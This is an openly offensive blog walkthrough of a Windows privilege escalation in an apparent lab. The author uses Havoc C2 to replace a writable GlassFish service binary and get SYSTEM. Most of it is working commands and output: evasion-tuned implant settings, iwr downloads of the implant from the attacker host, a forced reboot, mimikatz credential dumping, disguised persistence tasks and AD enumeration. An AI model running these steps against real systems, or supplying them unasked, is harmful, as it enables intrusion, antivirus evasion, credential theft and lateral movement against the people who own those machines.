





Adversary: Havoc C2 for Windows Evasion with Binary Hijacking
C2 for Adversary Overview
Command and Control framework used to control remote machines and run payloads after gaining access. It's an open-source alternative to popular tools like Cobalt Strike, designed for adversaries operations and learning purposes.
While C2 is not new to our industry and existed well before MITRE started classifying techniques, it is worthwhile mapping various techniques back to the MITRE framework for further use downstream in the investigative cycle.
C2 frameworks often include post-exploitation capabilities to further spread throughout a network.
Common C2 activity generally consists of an external server listening for communication from infected systems. An infected system typically generates beacon traffic to maintain communication with the server.
Threat Spotlight
Abusing Windows SCM, covering PE subsystem with protection of TotalAV as anti-viruses. Pure DACL misconfiguration abuse and tradecraft with Havoc demon binary for evasion until Pwned.
Attacking Win32 API calls and token in PrivEsc from medium to Admin, OPSEC binary replacement operations. This blog post are 100% Offensive perspective.
Threat Model
Target: 192.168.232.168
Running Windows 10 Build 19042.1288 with TotalAV Real-Time Protection enabled. Initial access achieved via RDP as user arthur with set-of credentials:
arthur:KingOfAtlantis
Current integrity level are Medium Mandatory Level with objective is wanting to escalate to NT System with System Mandatory Level (S-1-16-16384) through service binary substitution.

With-out being said, why this works are by Windows SCM executes service binaries at boot with SYSTEM token. If the service binary is writable by authenticated users due to permissive DACLs, we can replace it with our C2 implant.
Then call for SYSTEM reboots, SCM launches our binary with SYSTEM privileges, AV sees "legitimate" service startup and doesn't flag it.
Service Enumeration
After gaining RDP access, enumerate running services and identify writable binary paths. Target environment runs GlassFish 4 application server with service wrapper.
User Context Analysis
Current token privileges for arthur user:
USER INFORMATION
----------------
User Name SID
============== ==============================================
fishyyy\arthur S-1-5-21-2619112490-2635448554-1147358759-1002
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
====================================== ================ ============ ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users Alias S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON Well-known group S-1-5-14 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE Well-known group S-1-5-4 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account Well-known group S-1-5-113 Mandatory group, Enabled by default, Enabled group
LOCAL Well-known group S-1-2-0 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label S-1-16-8192
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ==================================== ========
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone DisabledStandard user token with no dangerous privileges. SeShutdownPrivilege is disabled but executable via shutdown.exe. SeChangeNotifyPrivilege enabled allows directory traversal without access checks.
Service Binary Discovery
GlassFish service wrapper binary located at:
C:\glassfish4\glassfish\domains\domain1\bin\*C:\glassfish4\glassfish\domains\domain1\bin\domain1Service.exeDACL analysis using icacls:
C:\glassfish4\glassfish\domains\domain1\bin> icacls C:\glassfish4\glassfish\domains\domain1\bin
icacls C:\glassfish4\glassfish\domains\domain1\bin
C:\glassfish4\glassfish\domains\domain1\bin BUILTIN\Administrators:(I)(OI)(CI)(F)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)Critical finding: NT AUTHORITY\Authenticated Users:(I)(M) grants Modify rights to the directory. Breakdown:
(I)means inherited from parent.(M)meaning it ables to modify permission (read, write, delete).(OI)means Object inherit (applies to files).(CI)meaning Container inherit (applies to subdirectories).
Any authenticated user can modify files in this directory. Service binary is replaceable.
Havoc C2 Infrastructure
_______ _______ _______
│\ /│( ___ )│\ /│( ___ )( ____ \
│ ) ( ││ ( ) ││ ) ( ││ ( ) ││ ( \/
│ (___) ││ (___) ││ │ │ ││ │ │ ││ │
│ ___ ││ ___ │( ( ) )│ │ │ ││ │
│ ( ) ││ ( ) │ \ \_/ / │ │ │ ││ │
│ ) ( ││ ) ( │ \ / │ (___) ││ (____/\
│/ \││/ \│ \_/ (_______)(_______/
pwn and elevate until it's doneHavoc Framework uses a client-server architecture with WebSocket transport for C2 communications. Server component (teamserver) handles agent callbacks, client provides operator interface.
Teamserver Deployment
Launch teamserver with profile configuration:
havoc server --profile /usr/share/havoc/profiles/havoc.yaotlAnd the other command for Havoc:
Client Connection
Connect operator client to teamserver:
havoc client /usr/share/havoc/profiles/havoc.yaotlClient authenticates and establishes session:
[14:46:14] [info] Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]
[14:46:14] [info] loaded config file: client/config.toml
[14:46:21] [info] Connecting to profile: (OSEP) Havoc for Hijack
20/01/2026 14:49:41 [*] Started "192.168.45.239" listenerListener configured on attack machine IP 192.168.45.239. Target will beacon back to this address.
Payload Generation
Havoc generates PE executables containing the Demon implant. Demon is Havoc's agent component, analogous to Cobalt Strike's Beacon.
Payload Configuration

Configuration parameters for AV evasion:
Agent: Demon
Listener: 192.168.45.239
Arch: x64
Format: Windows Exe
Config:
Sleep: 2
Jitter: 20
Indirect Syscall: *check
Stack Duplication: un-check
Sleep Technique: WaitForSingleObjectEx
Sleep Jmp Gadget: None
Proxy Loading: None (LdrLoadDll)
Amsi/Etw Patch: Hardware Breakpoints
Injection: [stack configuration]Features:
- Indirect Syscalls for Bypasses userland hooks by calling
nt!Zw*functions directly via syscall instruction. - Sleep Technique
WaitForSingleObjectExinstead of standardSleep()to avoid behavioral detection. - Stack Duplication Creates fake stack frames to confuse memory scanners.
- Hardware Breakpoints Patches
AMSI/ETWat runtime using debug registers instead of memory writes.
Generate payload as deamon.exe (102.40 kB PE file).
Binary Replacement Tradecraft
Service binary substitution requires precise execution to maintain operational security and avoid detection.
Initial Beacon Establishment
Before replacing the service binary, establish initial C2 session using the Demon implant:
C:\Users\arthur\Documents> iwr -uri http://192.168.45.239/deamon.exe -outfile deamon.exe
C:\Users\arthur\Documents> .\deamon.exeDemon executes in arthur user context, callback received:

20/01/2026 15:01:31 [*] Initialized 21856022 :: arthur@192.168.232.168 (FISHYYY)
Agent 7E6526E8 authenticated as FISHYYY\arthur :: [Internal: 192.168.232.168] [Process: deamon.exe\5876] [Arch: x64] [Pivot: Direct]Session established. Agent ID 7E6526E8, process ID 5876. Now have interactive control over target.
Service Binary Backup
Preserve original binary for restoration if needed:
Demon » powershell whoami
[*] [DA013C5B] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [172 bytes]
[+] Received Output [16 bytes]:
fishyyy\arthur
Demon » cd C:\glassfish4\glassfish\domains\domain1\bin
[*] [835CBE6A] Tasked demon to change directory: C:\glassfish4\glassfish\domains\domain1\bin
[*] Changed directory: C:\glassfish4\glassfish\domains\domain1\bin
Demon » dir
[*] [0D57ECB8] Tasked demon to list current directory
Directory of C:\glassfish4\glassfish\domains\domain1\bin\*:
26/08/2024 21:53 0 B domain1Service.err.log
26/08/2024 21:53 30.21 kB domain1Service.exe
26/08/2024 21:53 0 B domain1Service.out.log
26/08/2024 21:53 1.69 kB domain1Service.wrapper.log
26/08/2024 21:53 3.12 kB domain1Service.xml
5 File(s) 35.02 kB
0 Folder(s)
Demon » powershell icacls C:\glassfish4\glassfish\domains\domain1\bin
[*] [2930F6DE] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [260 bytes]
[+] Received Output [475 bytes]:
C:\glassfish4\glassfish\domains\domain1\bin BUILTIN\Administrators:(I)(OI)(CI)(F)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
Successfully processed 1 files; Failed processing 0 files
Demon » powershell move domain1Service.exe domain1Service.exe.bak
[*] [9F0A1D24] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [252 bytes]
20/01/2026 15:53:49 [holyhack3rn33ld3] Demon » dir
[*] [0BDCA845] Tasked demon to list current directory
Directory of C:\glassfish4\glassfish\domains\domain1\bin\*:
26/08/2024 21:53 0 B domain1Service.err.log
26/08/2024 21:53 30.21 kB domain1Service.exe.bak
26/08/2024 21:53 0 B domain1Service.out.log
26/08/2024 21:53 1.69 kB domain1Service.wrapper.log
26/08/2024 21:53 3.12 kB domain1Service.xml
5 File(s) 35.02 kB
0 Folder(s)Original binary backed up to domain1Service.exe.bak. Rename operation maintains original timestamps, avoiding obvious filesystem artifacts.
Demon Implant Deployment
Download Havoc payload and replace service binary:
Demon » powershell iwr -uri http://192.168.45.239/deamon.exe -outfile domain1Service.exe
[*] [9D42F31E] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [298 bytes]
Demon » dir
[*] [D6C29048] Tasked demon to list current directory
Directory of C:\glassfish4\glassfish\domains\domain1\bin\*:
26/08/2024 21:53 0 B domain1Service.err.log
30/10/2021 22:09 102.40 kB domain1Service.exe
26/08/2024 21:53 30.21 kB domain1Service.exe.bak
26/08/2024 21:53 0 B domain1Service.out.log
26/08/2024 21:53 1.69 kB domain1Service.wrapper.log
26/08/2024 21:53 3.12 kB domain1Service.xml
6 File(s) 137.42 kB
0 Folder(s)New binary in place, size changed from 30.21 kB to 102.40 kB, the timestamp shows download time (30/10/2021 22:09), not original service binary timestamp. For more adversary approach in real operations, use SetFileTime Win32 API to clone timestamps.
OPSEC Consideration: TotalAV Evasion
Target system runs TotalAV with Real-Time Protection enabled, Why didn't it trigger?
- Havoc's indirect syscalls bypass userland hooks AV products use for monitoring.
- Sleep obfuscation prevents memory scanning during dormancy.
- Service binary replacement looks like legitimate administrative activity.
- No suspicious parent-child process relationship (SCM launches the service, not a user process).
- Hardware
breakpoint AMSI patchingdoesn't trigger memory write alerts.
TotalAV dashboard shows "Real-Time Protection Disabled" but this is UI state, not actual protection status. Protection is active but ineffective against our technique.
Reboot Trigger
Force system reboot to trigger service execution with SYSTEM privileges:
Demon » powershell shutdown /r /t 0
[*] [58EC9D72] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [192 bytes]System reboots immediately (/t 0 = zero second delay).
Original Demon session terminates as expected.
Service Initialization Sequence
During boot, Windows follows this sequence:
- Kernel loads
ntoskrnl.exe - Session Manager
smss.exeinitializes - Client/Server Runtime Subsystem
csrss.exestarts - Windows Logon
winlogon.exelaunches - Service Control Manager via
services.exeinitializes - SCM reads service configuration from
HKLM\SYSTEM\CurrentControlSet\Services - SCM launches AUTO_START services using
CreateProcessAsUserwith SYSTEM token - Our replaced
domain1Service.exeexecutes as NT AUTHORITY\SYSTEM
Service process spawned before user logon, making it invisible to interactive session monitoring.
SYSTEM Beacon Callback
Post-reboot, Demon implant executes with elevated privileges:
20/01/2026 15:46:20 Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]
20/01/2026 15:46:20 [+] holyhack3rn33ld3 connected to teamserver
20/01/2026 15:48:34 [*] Started "hack" listener
20/01/2026 15:52:03 [*] Initialized 7e6526e8 :: arthur@192.168.232.168 (FISHYYY)
20/01/2026 15:55:38 [*] Initialized 6c3f4288 :: SYSTEM@192.168.232.168 (FISHYYY)Profit!!!

20/01/2026 15:55:38 [*] Initialized 6c3f4288 :: SYSTEM@192.168.232.168 (FISHYYY)Critical changes:
- User changed from
arthurtoSYSTEM - New agent ID:
6C3F4288 - Process ID
- Process name matches service binary:
domain1Service.exe
Token Analysis
Verify privilege escalation through token inspection:
Demon » powershell whoami /all
[*] [47B23D65] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [182 bytes]
[+] Received Output [4156 bytes]:
USER INFORMATION
----------------
User Name SID
=================== ========
nt authority\system S-1-5-18
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators Alias S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label S-1-16-16384
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeLockMemoryPrivilege Lock pages in memory Enabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeTcbPrivilege Act as part of the operating system Enabled
SeSecurityPrivilege Manage auditing and security log Disabled
SeTakeOwnershipPrivilege Take ownership of files or other objects Disabled
SeLoadDriverPrivilege Load and unload device drivers Disabled
SeSystemProfilePrivilege Profile system performance Enabled
SeSystemtimePrivilege Change the system time Disabled
SeProfileSingleProcessPrivilege Profile single process Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority Enabled
SeCreatePagefilePrivilege Create a pagefile Enabled
SeCreatePermanentPrivilege Create permanent shared objects Enabled
SeBackupPrivilege Back up files and directories Disabled
SeRestorePrivilege Restore files and directories Disabled
SeShutdownPrivilege Shut down the system Disabled
SeDebugPrivilege Debug programs Enabled
SeAuditPrivilege Generate security audits Enabled
SeSystemEnvironmentPrivilege Modify firmware environment values Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeManageVolumePrivilege Perform volume maintenance tasks Disabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set
[+] Received Output [370 bytes]:
Enabled
SeTimeZonePrivilege Change the time zone Enabled
SeCreateSymbolicLinkPrivilege Create symbolic links Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled Full SYSTEM token acquired. Critical privileges now enabled, High-light baby!

Integrity level escalated from Medium to System. SYSTEM integrity level bypasses UAC entirely and grants unrestricted access to all system resources.
Post-Exploitation Operations
With SYSTEM context established, execute post-exploitation objectives.
Credential Harvesting
Dump LSASS process memory for credentials:
Demon » mimikatz sekurlsa::logonpasswordsSeDebugPrivilege allows reading lsass.exe memory without triggering Protected Process Light (PPL) restrictions on older builds.
Persistence Establishment
Current persistence mechanism is the replaced service binary. Additional persistence methods:
- Create new service with
sc.exe create - Schedule task with SYSTEM trigger:
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\System32\payload.exe" /sc onstart /ru SYSTEM - Registry Run key:
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run - WMI Event Subscription for fileless persistence
Lateral Movement Preparation
Enumerate domain environment for lateral movement:
Demon » powershell Get-ADComputer -Filter * | Select-Object Name,IPv4Address
Demon » powershell Get-ADUser -Filter * -Properties MemberOf | Select-Object Name,MemberOfSYSTEM token on domain-joined machine allows unrestricted LDAP queries against domain controller.
PE Subsystem Requirements
Service binaries must meet specific PE format requirements for SCM compatibility.
PE Header Analysis
Original GlassFish service binary PE headers:
DOS Header:
e_magic: 0x5A4D (MZ)
PE Header:
Signature: 0x4550 (PE)
Machine: 0x8664 (IMAGE_FILE_MACHINE_AMD64)
Subsystem: 0x0002 (IMAGE_SUBSYSTEM_WINDOWS_GUI)
Optional Header:
Subsystem: IMAGE_SUBSYSTEM_WINDOWS_GUI
DllCharacteristics: IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE | IMAGE_DLLCHARACTERISTICS_NX_COMPATHavoc Demon implant PE structure:
DOS Header:
e_magic: 0x5A4D (MZ)
PE Header:
Signature: 0x4550 (PE)
Machine: 0x8664 (IMAGE_FILE_MACHINE_AMD64)
Subsystem: 0x0002 (IMAGE_SUBSYSTEM_WINDOWS_GUI)
Optional Header:
Subsystem: IMAGE_SUBSYSTEM_WINDOWS_GUI
DllCharacteristics: IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE | IMAGE_DLLCHARACTERISTICS_NX_COMPAT | IMAGE_DLLCHARACTERISTICS_HIGH_ENTROPY_VABoth binaries use IMAGE_SUBSYSTEM_WINDOWS_GUI subsystem. This is critical because SCM requires either GUI or CUI subsystem. Services with incorrect subsystem values fail to initialize.
Import Address Table
Service binaries must import specific Win32 APIs for SCM interaction:
StartServiceCtrlDispatcherRegisterServiceCtrlHandlerSetServiceStatus
Havoc Demon doesn't implement standard service control handlers. Why does it work?
SCM launches the binary regardless of service control handler implementation. If the binary doesn't call StartServiceCtrlDispatcher within 30 seconds, SCM marks the service as failed, but the process continues running. Our Demon implant executes fully despite SCM reporting service failure.
Win32 API Call Chain
Tracking Win32 API calls during binary replacement and execution reveals the complete attack flow.
File System Operations
Binary replacement API sequence:
CreateFileW("C:\glassfish4\...\domain1Service.exe")
-> Returns HANDLE with GENERIC_WRITE access
WriteFile(hFile, lpBuffer, nBytesToWrite)
-> Writes Demon PE to disk
SetFileTime(hFile, &creationTime, &lastAccessTime, &lastWriteTime)
-> Clones timestamps from original binary (OPSEC)
CloseHandle(hFile)
-> Flushes buffers and commits changesProcess Creation
SCM service launch sequence:
NtCreateUserProcess() [Kernel]
-> Called by SCM to create service process
-> Token: Primary token with SYSTEM SID (S-1-5-18)
-> Integrity Level: System (S-1-16-16384)
NtAllocateVirtualMemory()
-> Allocates memory for PE image in new process
NtWriteVirtualMemory()
-> Maps Demon PE sections into process memory
NtProtectVirtualMemory()
-> Sets execute permissions on code sections
NtResumeThread()
-> Starts execution at PE entry pointNetwork Communications
Havoc C2 beacon establishment:
WSAStartup()
-> Initializes Winsock
socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)
-> Creates TCP socket for C2
connect(socket, &serverAddr, sizeof(serverAddr))
-> Establishes connection to 192.168.45.239:40056
send(socket, lpBuffer, len, 0)
-> Sends encrypted beacon data
recv(socket, lpBuffer, len, 0)
-> Receives tasking from teamserverAll network operations use standard Winsock APIs. No suspicious protocol implementations that would trigger network-based detection.
I think that's most of it for us Adversaries.
Thanks for reading!!!